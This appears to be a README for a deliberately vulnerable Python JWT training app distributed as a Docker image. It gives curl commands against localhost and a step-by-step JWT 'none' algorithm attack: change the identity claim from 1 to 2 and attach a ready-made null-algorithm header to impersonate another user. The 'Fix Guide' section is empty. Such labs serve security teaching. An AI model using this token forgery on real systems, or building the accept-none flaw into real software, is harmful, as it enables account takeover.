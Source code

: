 # Python-JWT-Hs256-None

JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp

https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.md


## SAST Tools : 

Find With SAST Tools : SonarQube Develpoer Plan





Find With SAST Tools : My Yml Script


![Getting Started](21.png)



## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-none


    docker run -ti -p 8008:5000 mhnamadi/jwt-none


## Payload 

* curl --header "Content-Type: application/json" --request POST --data '{"username":"admin","password":"admin"}' http://localhost:5000/auth


* curl -i -H "Accept: application/json" -H "Authorization: JWT " http://localhost:5000/protected

* Null cipher header: eyJ0eXAiOiJKV1QiLCAiYWxnIjoiTk9ORSJ9.

## Attack


1 . curl --header "Content-Type: application/json" --request POST --data '{"username":"user","password":"user"}' http://localhost:8008/auth

{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDQ4NTQyODUsImlhdCI6MTY0NDg1Mzk4NSwibmJmIjoxNjQ0ODUzOTg1LCJpZGVudGl0eSI6MX0.mBCLVmIjOQT4a596r7sHvKgPm60ZgZjXBzSGZPKLRp0"

2 . curl -i -H "Accept: application/json" -H "Authorization: JWT " http://localhost:8008/protected


3 . curl --header "Content-Type: application/json" --request POST --data '{"username":"user2","password":"user2"}' http://localhost:8008/auth

{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDQ4NTQzNTcsImlhdCI6MTY0NDg1NDA1NywibmJmIjoxNjQ0ODU0MDU3LCJpZGVudGl0eSI6Mn0.6EdraNQoS8p9lsCzbmSm4XOEg4pQKwFfGoEq85le8sA"

4 . curl -i -H "Accept: application/json" -H "Authorization: JWT " http://localhost:8008/protected


5 . Change ID 1 to 2 and add Null payload on https://jwt.io/ 

6 . Add Null cipher header: eyJ0eXAiOiJKV1QiLCAiYWxnIjoiTk9ORSJ9. 





![Getting Started](12.png)




## Fix Guide :  



## Contributing : 
 
We encourage you to contribute to Project

## Twitter Contributor :

   https:// 
